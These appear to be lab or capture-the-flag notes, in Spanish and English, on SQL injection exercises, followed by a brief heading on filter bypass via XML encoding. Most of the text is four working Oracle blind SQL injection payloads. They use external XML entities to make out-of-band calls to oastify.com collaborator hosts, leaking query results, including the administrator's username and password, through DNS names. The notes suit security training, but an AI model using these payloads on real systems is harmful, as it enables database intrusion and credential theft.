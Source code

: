 - Injection

```sql
SELECT * FROM tracking WHERE id = 'jjqdOXE6PSe3bchM'union SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY %25 remote SYSTEM "http://r4waitf6xiwmfkha147d21l0trzinabz.oastify.com/"> %25remote%3b]>'),'/l') FROM dual-- -'
```

```sql
SELECT * FROM tracking WHERE id = 'jjqdOXE6PSe3bchM'union SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY %25 remote SYSTEM "http://'||(select 'test' from dual)||'.h3l0hjeww8vceag00u631rkqshyam1aq.oastify.com"> %25remote%3b]>'),'/l') FROM dual-- -'
```

```sql
SELECT * FROM tracking WHERE id = 'jjqdOXE6PSe3bchM'union SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY %25 remote SYSTEM "http://'||(select username from users where username='administrator')||'.h3l0hjeww8vceag00u631rkqshyam1aq.oastify.com"> %25remote%3b]>'),'/l') FROM dual-- -'
```

```sql
SELECT * FROM tracking WHERE id = 'jjqdOXE6PSe3bchM'union SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY %25 remote SYSTEM "http://'||(select password from users where username='administrator')||'.h3l0hjeww8vceag00u631rkqshyam1aq.oastify.com"> %25remote%3b]>'),'/l') FROM dual-- -'
```

## Bypass de filtros con codificación XML en Inyección SQL || SQL injection with filter bypass via XML encoding

- Query SQL

```sql
SELECT * FROM stock WHERE storeId = $INPUT$
```

- Explotation

![](/img2/Pasted%20image%2020250710001827.png)